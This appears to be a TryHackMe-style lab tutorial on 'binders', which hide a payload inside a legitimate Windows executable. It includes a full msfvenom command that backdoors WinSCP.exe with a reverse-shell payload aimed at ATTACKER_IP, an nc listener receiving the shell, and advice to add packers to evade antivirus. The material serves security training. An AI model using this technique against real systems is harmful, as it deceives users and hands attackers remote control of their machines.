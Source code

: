 # Binders

While not an AV bypass method, binders are important when designing a malicious payload to distribute to end users. A **binder** is a program that merges two (or more) executables into a single one. It is often used to distribute your payload hidden inside another known program, fooling users into believing they are executing a legitimate application.

While each binder may work slightly differently, they generally add your shellcode's code inside the legitimate program and ensure it is executed. For example, you could change the entry point in the PE header so your shellcode runs before the legitimate program, then redirect execution back to the original program once your code finishes. This way, when the user runs the executable, your shellcode executes silently first, then the legitimate program continues as normal.

## Binding with msfvenom

You can easily plant a payload of your choice in any `.exe` file with `msfvenom`. The binary will still work as usual but will also execute an additional payload silently. The method used by `msfvenom` injects your malicious program by creating an extra thread for it, which is slightly different from the entry point method but achieves the same result. Having a separate thread is even better, as your program won't get blocked if your shellcode fails.

For this task, we will backdoor the WinSCP executable located at `C:\Tools\WinSCP`.

To create a backdoored `WinSCP.exe`, use the following command on your Windows machine:

> **Note:** Metasploit is installed on the Windows machine for your convenience, but it might take up to three minutes to generate the payload (any warnings can be safely ignored).

```shell
C:\> msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
```

The resulting `WinSCP-evil.exe` will execute a `reverse_tcp` meterpreter payload without the user noticing. Before running the backdoored executable, set up an `nc` listener to receive the reverse shell. When you execute your backdoored executable, it should launch a reverse shell back to you while continuing to execute `WinSCP.exe` for the user:

```shell
user@attackbox$ nc -lvp 7779      
Listening on 0.0.0.0 7779
Connection received on 10.10.183.127 49813
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

## Binders and AV

Binders do little to hide your payload from AV solutions. Simply joining two executables without any changes means the resulting executable will still trigger any signature that the original payload did.

The main use of binders is to fool users into believing they are executing a legitimate executable rather than a malicious payload.

When creating a real payload, you may want to use encoders, crypters, or packers to hide your shellcode from signature-based AVs, and then bind it into a known executable so the user doesn't know what is being executed.

Feel free to try uploading your bound executable to the THM Antivirus Check website (link available on your desktop) without any packing. You should get a detection back from the server, so this method alone won't help you get the flag from the server.

